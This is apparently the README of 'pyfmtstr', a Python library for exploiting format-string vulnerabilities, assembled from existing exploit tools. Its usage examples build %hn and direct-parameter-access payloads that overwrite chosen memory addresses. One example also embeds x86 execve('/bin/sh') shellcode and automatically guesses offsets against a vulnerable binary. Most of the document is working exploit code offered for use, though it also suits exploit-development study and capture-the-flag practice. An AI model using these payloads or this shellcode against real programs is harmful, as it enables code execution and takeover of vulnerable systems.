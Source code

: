 # pyfmtstr

format string exploitation library by cloud

This library shamelessly rips code from a bunch of existing libraries:
* postmodern - Ronin FormatString Helper
* Paul Haas - Defcon 18 Auto Format Brute Forcer
* hellman - libformatstr
* jduck - Metasploit FormatString Mixin

I just reoganized/combined things in a way that I prefer.

# Usage

### Generate simple fmtstr using %hn and DPA

```
from pyfmtstr import pyfmtstr,membuf
m = membuf()
m[0x080494d4] = 0xbfffddd8
f = pyfmtstr(membuf=m)
sys.stdout.write(f.generate_fmtstr())
```

### Generate fmtstr using customized options

```
from pyfmtstr import pyfmtstr,membuf
m = membuf()
m[0x080494d4] = 0xbfffddd8
f = pyfmtstr(membuf=m, num_pops=1, pad_bytes=2, printed_bytes=50)
f.set_caps(fpu=False, hn=True, dpa=True)
sys.stdout.write(f.generate_fmtstr())
```

### Dynamically guess offsets

```
from pyfmtstr import exploit
sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" \
     "\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
e = exploit(binary="vuln_prog/printf", shellcode=sc)
sc_offset,sc_align  = e.dump_stack()
fmtstr_addr,sc_addr = e.find_fmtstr_address()
```


